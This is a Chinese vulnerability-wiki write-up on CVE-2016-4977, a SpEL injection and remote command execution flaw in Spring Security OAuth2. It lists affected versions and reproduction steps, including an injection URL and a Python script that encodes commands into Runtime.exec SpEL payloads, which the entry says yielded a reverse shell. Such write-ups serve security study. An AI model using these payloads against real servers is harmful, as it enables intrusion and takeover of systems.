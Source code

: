 （CVE-2016-4977）Spring Security OAuth2 远程命令执行漏洞
========================================================

一、漏洞简介
------------

Spring Security OAuth 是为 Spring
框架提供安全认证支持的一个模块。在其使用 whitelabel views
来处理错误时，由于使用了Springs Expression Language
(SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

二、漏洞影响
------------

Spring Security OAuth 2.0.0版本至2.0.9版本Spring Security OAuth 1.0.0版本至1.0.5版本中

三、复现过程
------------

访问`http://www.0-sec.org:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId24.png)

然后，我们使用poc.py来生成反弹shell的POC（注意：\[Java反弹shell的限制与绕过方式要在这个网站进行转码\]

    http://www.jackson-t.ca/runtime-exec-payloads.html
    CVE-2016-4977.py
    #!/usr/bin/env python

    message = input('Enter message to encode:')

    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

    for ch in message[1:]:
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

    poc += ')}'

    print(poc)

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId25.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句，访问成功弹回shell：

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-4977)SpringSecurityOAuth2远程命令执行漏洞/media/rId26.png)
